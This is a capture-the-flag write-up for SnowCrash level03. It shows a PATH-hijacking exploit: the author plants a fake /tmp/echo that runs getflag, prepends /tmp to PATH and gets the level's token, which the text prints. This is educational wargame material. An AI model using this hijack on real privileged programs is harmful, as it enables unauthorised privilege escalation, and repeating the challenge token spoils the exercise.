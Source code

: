 
> in this level we got a file again so let's try to work with it:
--------------------------------
level03@SnowCrash:~$ ./level03
Exploit me
--------------------------------

> after executing it we got this message "Exploit me"
so we just need literally to do what he asked

> let's use strings and find where this exploit me is:
--------------------------------
level03@SnowCrash:~$ strings level03 | grep "Exploit me"
/usr/bin/env echo Exploit me
--------------------------------

> perfect so the program use echo to print Exploit me
so we need to override echo to let it give us our flag

> firstly we create an echo file in tmp and put getflag in it:
--------------------------------
level03@SnowCrash:~$ echo "/bin/getflag" > /tmp/echo
--------------------------------

> now we need to add it to the path, specifically before the path
so it override system echo:
--------------------------------
level03@SnowCrash:~$ export PATH=/tmp:$PATH
--------------------------------

> now let's run level03 to check:
--------------------------------
level03@SnowCrash:~$ ./level03
Exploit me
--------------------------------

> we didn't understand at first why it still didn't work
but after trying the fix was easy we needed just to give permessions to the file
--------------------------------
level03@SnowCrash:~$ chmod 777 /tmp/echo
--------------------------------

> now let's run level03 to check again:
--------------------------------
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
--------------------------------
